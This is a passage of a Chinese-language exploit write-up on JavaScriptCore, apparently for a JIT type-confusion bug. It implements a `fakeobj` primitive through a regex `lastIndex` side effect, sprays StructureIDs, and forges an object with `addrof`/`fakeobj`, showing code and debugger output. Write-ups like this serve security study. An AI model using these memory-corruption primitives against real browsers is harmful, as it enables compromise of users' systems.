 ```shell
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

原语`fakeobj`的实现如下，传入参数为需要伪造对象的地址，在函数`AddrSetter()`里因为JIT认为数组`array`始终为浮点数数组，所以直接写入数据而不修改标志位
```javascript
function fakeobj(dbl) {
    var array = [13.37];
    var reg = /abc/y;
    var AddrSetter = function(array) {
      "abc".match(reg);
      array[0] = dbl;
    }
    for (var i = 0; i < 10000; ++i)
      AddrSetter(array);
    regexLastIndex = {};
    regexLastIndex.toString = function() {
      array[0] = {};
      return "0";
    };
    reg.lastIndex = regexLastIndex;
    AddrSetter(array);
    return array[0];
}
```

总结一下整个过程：先Spray占位一个`StructureID`，利用原语`addrof`获取fake对象地址，通过fake对象进行内存风水，将fake对象第一个属性构造成合法对象的JSCell，此时使用原语`fakeobj`即可获得一个伪造对象`real_fake`

完整测试一遍
```javascript
function addrof(val) { ... }

function fakeobj(dbl) { ... }

for (var i = 0; i < 0x1000; i++) {
    obj = {}; 
    obj.x = 1; 
    obj['prop_' + i] = 2;
}

fake = {};
fake.x = 7.082855106403439e-304;
fake.y = 2;
fake.z = 3;
delete fake.y;

print(describe(fake));
// Object: 0x7fffadefd580 with butterfly (nil) (Structure 0x7fffadef4a80:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 4458

buf = new ArrayBuffer(8);
u32 = new Uint32Array(buf);
f64 = new Float64Array(buf);

f64[0] = addrof(fake);    // 6.95328778531324e-310 浮点数读取fake对象地址
u32[0] += 0x10;    // u32[0]的值为0xadefd580，计算结果为0xadefd590
real_fake = fakeobj(f64[0])    // 6.95328778531403e-310 浮点数读取修改偏移后的f64[0]

print(describe(real_fake)) // 确定成功获取对象
// Object: 0x7fffadefd590 with butterfly (nil) (Structure 0x7fffae21e7d0:[Object, {x:0, prop_3736:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 4096
```

